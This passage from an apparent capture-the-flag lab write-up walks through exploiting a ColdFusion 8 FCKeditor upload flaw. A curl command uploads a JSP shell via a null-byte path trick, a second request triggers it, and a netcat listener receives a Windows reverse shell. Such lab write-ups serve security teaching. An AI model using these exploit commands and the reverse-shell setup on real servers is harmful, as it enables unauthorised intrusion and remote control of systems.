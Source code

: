 I'll update the `curl`. I can adjust headers inside the form data by
adding it inside the `-F` argument separated by `;`:



    # curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'



Now visiting `/userfiles/file/` shows the uploaded shell:

![](/img/image-20200513095953434.png)

#### Execute Shell

I can visit that url with `curl`:



    root@kali# curl 'http://10.10.10.11:8500/userfiles/file/df.jsp'



And in another window (about 30 seconds later) I get a shell:



    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.11.
    Ncat: Connection from 10.10.10.11:50028.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\ColdFusion8\runtime\bin>whoami
    arctic\tolis



From there I can grab `user.txt`:



    C:\Users\tolis\Desktop>type user.txt
    02650d3a************************
